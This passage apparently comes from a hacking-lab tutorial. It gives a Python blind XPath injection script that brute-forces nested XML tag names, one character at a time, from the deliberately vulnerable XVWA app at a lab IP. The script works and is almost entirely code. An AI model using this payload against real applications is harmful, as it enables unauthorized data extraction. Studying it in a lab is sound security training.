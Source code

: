 We can readjust the previous *Python* script so that this time we search one by one for all the nested tags of the previously discovered one:

```python
#!/usr/bin/python3

import requests
import time
import sys
import string
import signal

from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Exiting...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

# Global variables
main_url = "http://192.168.50.122/xvwa/vulnerabilities/xpath/"
characters = string.ascii_letters

def xPathInjection():
    data = ""

    p1 = log.progress("Brute force")
    p1.status("Starting brute force attack")

    time.sleep(2)

    p2 = log.progress("Data")

    for position in range(1, 7):
        for character in characters:
            post_data = {
                'search': "1' and substring(name(/*[1]/*[1]),%d,1)='%s" % (position, character),
                'submit': ''
            }
        
            r = requests.post(main_url, data=post_data)
            
            if len(r.text) != 8686:
                data += character
                p2.status(data)
                break

    p1.success("Brute force attack ended")
    p2.success(data)

if __name__ == '__main__':
    xPathInjection()
```
